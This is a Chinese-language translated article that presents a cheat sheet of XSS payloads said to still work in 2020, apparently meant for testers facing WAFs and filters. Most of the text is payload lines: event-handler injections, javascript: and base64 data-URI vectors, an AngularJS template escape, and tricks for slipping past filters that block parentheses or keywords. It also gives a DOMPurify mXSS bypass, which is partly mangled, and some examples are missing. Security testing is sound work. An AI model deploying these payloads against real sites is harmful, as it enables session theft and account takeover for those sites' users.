

2020年仍然有效的一些XSS Payload

阅读量    766726 | 评论 1   稿费 50

发布时间：2020-02-18 17:00:08

译文声明

本文是翻译文章，文章原作者netsec，文章来源：netsec.expert

原文地址：https://netsec.expert/2020/02/01/xss-in-2020.html

---

译文仅供参考，具体内容表达以及含义原文为准

 

其实，现在网络上很多的XSS Cheat Sheet都已经过期了。很多的XSS Cheat Sheet都是直接从其他地方粘贴过来的，而且有的测试用例早在十年前就已经没用了，但是也没人去整理和清理。除此之外，在大多数情况下我们所遇到的情况都是这些XSS Cheat Sheet测试用例无法解决的，有可能是因为Waf，也有可能是因为XSS过滤器。当然了，如果只是一个简单的XSS漏洞，那你需要的仅仅只是一个有效的XSS攻击向量，而不是一堆“没用”的东西。

因此，在这篇文章中我想给大家提供一个“与众不同”的Cheat Sheet，在这份Cheat Sheet中我将给大家提供一份XSS技术和测试用例清单，并给出一些演示样例。希望在各位遇到难解决的WAF或XSS过滤器时，这份Cheat Sheet能够给大家提供一些帮助或灵感。虽然这份Cheat Sheet不能说100%完整，但是我相信这里提供的技术是2020年绝大部分研究人员仍在使用的技术。

 

标签-属性分隔符

有些过滤器会“天真地认为”只有某些特定字符可以分隔标签及其属性，下面给出的是在Firefox和Chrome中能够使用的有效分隔符的完整列表：

使用方式

一般来说，你的Payload构造如下：

<svg onload=alert(1)>

你可以尝试使用上述字符来替换‘svg’和‘onload’中间的空格，这样就可以保证HTML仍然有效并且Payload能够正确执行（DEMO：有效的HTML）：

<svg/onload=alert(1)><svg>

<svg
onload=alert(1)><svg> # newline char

<svg onload=alert(1)><svg> # tab char

<svg
onload=alert(1)><svg> # new page char (0xc)

 

基于JavaScript事件的XSS

标准HTML事件

点击事件：

使用样例：

<svg onload=alert()>

<body onpageshow=alert(1)>

<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)

<marquee onstart=alert(1)> (firefox only)

<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)

<input autofocus="" onfocus=alert(1)></input>

 (chrome & opera only)

HTML5事件

点击事件：

使用样例：

<video autoplay onloadstart="alert()" src=x></video>

<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<video controls onloadstart="alert()"><source src=x></video>

<video controls oncanplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>

<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

<audio autoplay controls onplaying="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>

 

基于CSS的事件

不幸的是，基于CSS来实现XSS现在已经越来越难了，我尝试过的所有向量目前都只能在非常旧的浏览器上工作。因此，下面介绍的是基于CSS来触发XSS的情况。

下面的例子使用的是style标签来为动画的开始和结束设置关键帧：

XSS

XSS

 

古怪的XSS向量

下面给出的是一些比较“奇葩”的XSS测试向量，这些测试向量很少见：

<svg><animate onbegin=alert() attributeName=x></svg>

<object data="data:text/html,">

<iframe srcdoc="<svg onload=alert(4);>">

<object data=javascript:alert(3)>

<iframe src=javascript:alert(2)>

<embed src=javascript:alert(1)>

<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>

<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

XSS多覆盖样例

下面我给出了几份XSS的多段代码，因为有的时候我们只需要输入特定的字符，或者只需要一个基于DOM或基于非DOM的注入场景。

 

框架

为了攻击JS框架，我们还需要对相关的模板语言进行研究和分析。

AngularJS

{{constructor.constructor('alert(1)')()}}

这个Payload适用于大多数场景。

Mavo

[self.alert(1)]

 

XSS过滤器绕过

圆括号过滤

利用HTML解析器和JS语句：

<svg onload=alert`1`></svg>
<svg onload=alert&lpar;1&rpar;></svg>
<svg onload=alert&#x28;1&#x29></svg>
<svg onload=alert&#40;1&#41></svg>

限制字符集

下面这三个站点可以将有效的JS代码转换为所谓的“乱码”来绕过绝大多数的过滤器：

1、JSFuck

2、JSFsck（不带圆括号的JSFuck）

3、jjencode

关键词过滤

避免使用的关键词：

(alert)(1)

(1,2,3,4,5,6,7,8,alert)(1)

a=alert,a(1)

[1].find(alert)

top["al”+”ert"](1)

top[/al/.source+/ert/.source](1)

alu0065rt(1)

top['al145rt'](1)

top['alx65rt'](1)

top[8680439..toString(30)](1) // Generated using parseInt("alert",30). Other bases also work

mXSS和DOM攻击

对于XSS过滤器来说，它们基本上不可能正确地预测浏览器如何跟HTML以及交互库进行数据处理的方式。因此，有的时候我们就可以将XSS Payload作为无效的HTML插入到目标页面中，然后浏览器将有可能把它作为有效Payload执行，这样就可以绕过过滤器了。

下面给出的是一个能够绕过最常见过滤器（DOMPurify <2.0.1）的mXSS Payload：

<svg>
">

<svg>
">
</svg>

双重编码

有的时候，应用程序会在字符串再次解码之前，对其执行XSS过滤，这样就会给我们留下实现绕过的可乘之机。

 

参考资料

1、https://www.vulnerability-lab.com/resources/documents/531.txt

2、https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

3、https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations

4、https://cure53.de/fp170.pdf

5、https://www.youtube.com/watch?v=5W-zGBKvLxk

6、https://xss.pwnfunction.com/